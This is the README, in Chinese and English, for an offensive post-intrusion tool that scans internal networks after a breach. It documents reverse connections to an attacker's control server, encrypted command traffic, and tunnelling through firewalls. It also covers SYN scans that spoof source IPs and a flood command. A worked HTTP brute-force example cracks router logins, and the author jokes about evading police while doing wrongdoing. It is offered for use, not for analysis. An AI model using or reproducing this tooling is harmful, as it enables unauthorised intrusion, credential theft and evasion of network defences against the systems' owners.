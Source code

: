 ﻿
##scanner_framework

===

中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.

***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to launch it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
using:arp<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
using:local<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解  [online crack]<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪  [tracert route]<br/>
using:tracert %ip/host%<br/>
抓取页面  [get a HTML page on server]<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能  [tunnal port]<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助  [show help]<br/>
using:help<br/>
退出  [exit scanner]<br/>
using:quit<br/>

###在线破解  [About Online Crack]
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	
	什么是表达式?
	
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	user=%username%&pass=%password%<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小<br/>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Success
	
	now cracking!
	
	network crack - target:192.168.1.103:80
	username:root password:toor
	
	破解完成
	
	
	表达式函数:
	
	base64(%string%) -- 采用base64 编码
	time() -- 获取系统时间
	len(%string%) -- 统计字符串长度
	rnd([%low%-%up%]) -- 在%low% 到%up% 之间生成随机数
	
	Example :
	
	破解水星的数据包 (其它都差不多,关键在Cookie):
	
	Cookie: a2404_pages=10; a2404_times=5; Authorization=Basic%20base64(admin:%password%)\r\n
	
	接下来会把%password% 先填充好之后再编码base64
	
	WARNING! 由于水平问题还做不出递归,请见谅 ..  
	


####端口转发原理:
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


###Other
===
#####reverse_server 是用来做反向连接用的服务端
#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..